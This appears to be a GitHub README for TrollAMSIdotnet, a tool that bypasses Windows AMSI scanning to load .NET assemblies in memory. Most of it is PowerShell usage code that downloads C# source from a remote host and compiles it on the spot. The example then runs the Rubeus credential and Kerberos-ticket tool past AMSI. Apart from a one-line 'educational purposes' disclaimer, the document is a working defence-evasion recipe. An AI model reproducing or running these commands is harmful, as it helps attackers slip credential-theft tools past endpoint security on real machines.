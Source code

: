 # TrollAMSIdotnet
TrollAMSI only bypasses powershell's amsi and not the CLR amsi. 



  
## Usage 
```
add-type -path (iwr https://raw.githubusercontent.com/cybersectroll/TrollAMSIdotnet/main/trollamsidotnet.cs).content
$bytes = <BYTE_ARRAY_DOWNLOAD>
$assemblyname = <ASSEMBLY_NAME>
$asm = [TrollAMSIdotnet]::Load($bytes,$assemblyname) 

[string[]]$args = "<ARGUMENT_TO_ASSEMBLY>", "<ARGUMENT_TO_ASSEMBLY>"
[TrollAMSIdotnet]::Invoke($asm,$args)
```

## Example 
```
add-type -path (iwr https://raw.githubusercontent.com/cybersectroll/TrollAMSIdotnet/main/trollamsidotnet.cs).content
$bytes = [System.IO.File]::ReadAllBytes("C:\Troll.exe")
$assemblyname = "Rubeus.exe"
$asm = [TrollAMSIdotnet]::Load($bytes,$assemblyname) 

[string[]]$args = "triage", "/consoleoutfile:C:\FILE.txt"
[TrollAMSIdotnet]::Invoke($asm,$args)
```


## Disclaimer
Should only be used for educational purposes!
